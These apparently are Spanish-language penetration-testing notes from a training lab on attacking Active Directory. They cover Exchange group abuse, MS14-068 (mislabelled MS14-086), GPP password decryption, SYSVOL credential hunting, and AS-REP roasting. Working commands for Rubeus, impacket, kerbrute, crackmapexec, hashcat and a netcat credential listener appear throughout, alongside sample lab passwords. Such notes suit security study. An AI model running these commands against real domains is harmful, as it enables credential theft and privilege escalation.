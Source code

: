 AAB#ASREPRoasting 
## **Exchange Related Group Membership**

El grupo `Exchange Windows Permissions`no está considerado como protected group, pero los miembros de este grupo tienen la habilidad de escribir DACL en objetos del dominio, lo cual puede terminar dándonos privilegios de DSync. El grupo  `Organization Management` es un grupo extremadamente poderoso también (”domain admins” de exchange)

En este [repositorio de github](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md) se pueden ver varias técnicas de ataque para los miembros de este grupo.
### PrivExchange
El servicio exchange corre como SYSTEM y es un grupo con más privilegios de los normales por defecto. Este ataque permite que cualquier usuario con correo fuerce al Exchange a autenticarse en otro host (NTLM Relay), lo que puede llevar a la obtención de privilegios de administrador de dominio.

## Printer Bug

## MS14-086

Es una falla de vulnerabilidad en la autenticación kerberos que permite crear tickets PAC (información que se adhiere a un ticket TGT) de manera que se acepten como legítimos por el KDC. La idea es crear el ticket en el que el usuario se presenta como Administrador del DC. Puede ser explotado con herraminetas como [Python Kerberos Exploitation Kit (PyKEK)](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek) o con impacket.

## Capturando credenciales LDAP

Hay un [post interesante](https://grimhacker.com/2018/03/09/just-a-printer/) en el que nos cuentan como capturar credenciales. La idea detrás de esto es que hay aplicaciones o impresoras que guardan las contraseñas LDAP en la consola de administración. En otras ocasiones, las aplicaciones tienen una función “Test Connection”, que puede envíar credenciales en texto claro, por lo que podríamos capturarlas del siguiente modo:

```powershell
sudo nc -k -v -l -p 386
```

## Enumerando DNS

Podemos utilizar una herramienta como [adidnsdump](https://github.com/dirkjanm/adidnsdump) para enumerar todos los registros DNS de un dominio utilizando una cuenta de usuario de dominio válida. Esto resulta especialmente útil si la convención de nombres para los hosts que nos devuelven en nuestra enumeración utilizando herramientas como `BloodHound`es similar a `SRV01934.INLANEFREIGHT.LOCAL`. Si todos los servidores y estaciones de trabajo tienen un nombre no descriptivo, nos resulta difícil saber qué atacar exactamente. Si podemos acceder a las entradas DNS en AD, podemos descubrir potencialmente registros DNS interesantes que apunten a este mismo servidor

```powershell
adidnsdump -u inlanefreight\\\\forend ldap://172.16.5.5 -r
```

Devuelve un archivo `recrds.csv`

## Contraseñas en el campo description_field

```powershell
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}

samaccountname description
-------------- -----------
administrator  Built-in account for administering the computer/domain
guest          Built-in account for guest access to the computer/domain
krbtgt         Key Distribution Center Service Account
ldap.agent     *** DO NOT CHANGE ***  3/12/2012: Sunsh1ne4All!
```

## PASSWD_NOTREQD

```powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```

## Credenciales en SMB y SYSVOL

**SYSVOL** es una carpeta compartida en los **controladores de dominio (DC)** de un entorno de **Active Directory (AD)**. Es utilizada para **almacenar y replicar archivos y scripts** necesarios para la administración del dominio. En ocasiones puede haber información interesante como scripts de inicio de sesión o archivos de políticas de grupo (GPO), que pueden contener credenciales en texto plano

Ejemplo de de muestra de información de sysvol desde un equipo unido al DC

```powershell
ls \\\\academy-ea-dc01\\SYSVOL\\INLANEFREIGHT.LOCAL\\
```

### Group Policy Preferences (GPP) Passwords

Cuando una GPP se crea, se almacena en un archivo `.xml` en sysvol. Este archivo contiene un array de configuraciones y contraseñas. Hay un campo `cpassword`, que está encriptado con AES-256, pero microsoft [publicó la llave privada](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN) ( [MS14-025 Vulnerability in GPP could allow elevation of privilege](https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30))

El valor de `cpassword` puede ser descifrado del siguiente modo:
```powershell
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

Estas contraseñas pueden ser buscadas con herramientas como  [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

También se pueden localizar contraseñas con `nxc`,
```powershell
# Para mostrar los módulos relacionados con gpp
crackmapexec smb -L | grep gpp
# Usando el módulo gpp_autologin para volcar información de registry.xml
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

## ASREPRoasting

Cualquier usuario del dominio puede solicitar un Ticket Granting Ticket (TGT) de una cuenta que tenga deshabilitada la opción de preautenticación kerberos.
### Con powerview + rubeus
- Encontrar usuarios con `**DONT_REQ_PREAUTH`: `Get-DomainUser`
	```powershell
	Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
	```
- Recuperación AS-REP en formato adecuado mediante Rubeus (supongamos `mmorgan` tiene deshabilitada preautenticación)
	```powershell
	.\\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
	```
### Búsqueda de usuarios + Recuperación **AS-REP: `kerbrute`**
El siguiente comando nos mostrará, además de los usuarios del dominio, aquellos sobre los que se puede realizar aspreproasting + su hash
```bash
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

### Busqueda de usuarios + recuperación AS-REP: `GetNPUsers.py`
Con esta herramienta podemos hacer lo mismo que con el comando anterior, pero necesitaremos una lista válida de usuarios del DC
```bash
# Sin credenciales y con una lista de usuarios
impacket-GetNPUsers corp.com/ -dc-ip $dcip -no-pass -usersfile valid_ad_users 
# Con credenciales de un usuario (pete)
impacket-GetNPUsers -dc-ip $dcip  -request -outputfile hashes.asreproast corp.com/pete
```
### Descifrando el hash con hashcat
```bash
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```

